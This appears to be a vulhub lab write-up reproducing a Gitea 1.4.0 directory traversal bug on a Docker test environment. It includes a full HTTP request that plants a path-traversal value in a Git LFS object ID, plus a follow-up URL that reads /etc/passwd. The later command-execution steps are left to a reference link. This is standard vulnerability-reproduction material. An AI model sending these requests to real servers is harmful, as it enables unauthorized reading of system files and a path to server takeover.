


# Gitea 1.4.0 Directory Traversal Causes Command Execution Vulnerability

Gitea is an open source project derived from gogs. It is a multi-user Git repository management platform similar to Github and Gitlab. There is a logic error in version 1.4.0 that causes unauthorized users to traverse directories, read and write arbitrary files, and eventually cause arbitrary commands to be executed.

Reference link:

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## vulnerability environment

Run the following command to start the boot vulnerability environment:

```
Docker-compose up -d
```

After the environment starts, visit `http://you-ip:3000`, you will enter the installation page, fill in the administrator account password, and modify the website URL. Others can be installed with the default configuration. (Do not modify the port number)

Once the installation is complete, create a public repository and add point files as you like (for example, initialize the repository with selected files and templates):



Then, you need to execute `docker-compose restart` to restart the gitea service. (See the second reference link for details)

## Vulnerability recurrence

Since the overall utilization of the vulnerability chain is more complicated, we only reproduce the file reading part, and the remaining utilization method is detailed in the second reference link.

Open gitea, find the public project you just created, such as `vulhub/repo`, send the following packet, add a Git LFS object:

```
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": ".../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

Then, go to `http://your-ip:3000/vulhub/repo.git/info/lfs/objects/...%2F..%2F..%2Fetc%2Fpasswd/sth` See that `/etc/passwd` has been successfully read:

